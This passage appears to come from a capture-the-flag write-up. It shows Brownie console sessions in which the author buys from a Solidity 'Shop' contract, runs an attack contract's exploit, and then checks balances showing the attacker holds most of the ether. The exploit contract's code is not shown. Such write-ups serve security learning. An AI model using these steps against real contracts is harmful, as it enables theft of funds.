 now time for the attack
```
>>> shop.buy(0, 1, {'from': accounts[0], 'value': Wei("5 ether")})
Transaction sent: 0x2e3af5d782e6e9f692caf04342a20d751883ca6d2873b9a91a01b79300b780d2
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 3
  Shop.buy confirmed   Block: 4   Gas used: 42490 (0.35%)

<Transaction '0x2e3af5d782e6e9f692caf04342a20d751883ca6d2873b9a91a01b79300b780d2'>
>>> attack.exploit({'from':accounts[0]})
Transaction sent: 0xe9f81c366b37f412feab8d72a190b1dd20ecf8bd0fa058a40ace70260fe6932a
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 4
  attack.exploit confirmed   Block: 5   Gas used: 295064 (2.46%)

<Transaction '0xe9f81c366b37f412feab8d72a190b1dd20ecf8bd0fa058a40ace70260fe6932a'>
```

did it work... we'll see, we check all the balances
```
>>> accounts[0].balance().to("ether")
Fixed('26.000000000000000000')
>>> attack.balance().to("ether")
Fixed('70.000000000000000000')
>>> shop.balance().to("ether")
Fixed('4.000000000000000000')
```

**IT WORKED!!!!**  
ok now time to check our inventory
```
>>> shop.refund(2, 3, {'from':accounts[0]})
Transaction sent: 0x179409994c7209855f2c435953c7f8debca771b766f61af773a6651e3a845dd2
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 5
  Shop.refund confirmed   Block: 6   Gas used: 22472 (0.19%)

<Transaction '0x179409994c7209855f2c435953c7f8debca771b766f61af773a6651e3a845dd2'>
>>> accounts[0].balance().to("ether")
Fixed('26.000000000000000000')
>>> attack.balance().to("ether")
Fixed('70.000000000000000000')
>>> shop.balance().to("ether")
Fixed('4.000000000000000000')
```

wait, it didn't fail!?  
but it didn't give a require error either  
it must have reverted  
that means it worked  
**IT WORKED!!!!!!**

### remote

ok so now all i had to do was make it work on the remote, some frantic googling later, i found a video from an old google ctf that did a similar challenge i could use
